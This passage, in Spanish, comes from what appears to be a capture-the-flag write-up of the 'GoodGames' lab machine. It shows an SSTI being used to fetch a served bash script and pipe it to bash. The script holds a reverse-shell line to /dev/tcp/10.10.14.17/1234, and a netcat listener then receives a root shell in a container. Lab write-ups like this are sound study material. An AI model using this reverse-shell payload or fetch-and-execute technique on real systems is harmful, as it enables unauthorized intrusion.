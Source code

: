 
Observamos que el comando se ejecutó correctamente, ahora vamos a ganar acceso a la máquina. Abriremos un servidor en python compartiendo un index.html malicioso, mientras esperamos con netcat una conexión, en el SSTI vamos a realizar una petición a nuesto recurso y pipearlo con bash para así ganar acceso al sistema:

El archivo html es:
```
#!/bin/bash
bash -i >& /dev/tcp/10.10.14.17/1234 0>&1
```
Luego, en el servidor web:

![](/imagenes/GoodGames/good23.png)

Si hacemos la petición:
```
python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.130 - - [16/Feb/2023 10:38:51] "GET / HTTP/1.1" 200 -
```

Si vemos el netcat:

```
rlwrap nc -nvlp 1234
listening on [any] 1234 ...
connect to [10.10.14.17] from (UNKNOWN) [10.10.11.130] 53968
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
root@3a453ab39d3d:/backend# whoami
whoami
root
```

Observamos que ha llegado la conexión y somos root, sin embargo, si nos fijamos:

```
root@3a453ab39d3d:/backend# ifconfig
ifconfig
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.19.0.2  netmask 255.255.0.0  broadcast 172.19.255.255
        ether 02:42:ac:13:00:02  txqueuelen 0  (Ethernet)
        RX packets 2904  bytes 457936 (447.2 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 2481  bytes 3969428 (3.7 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 0  bytes 0 (0.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
```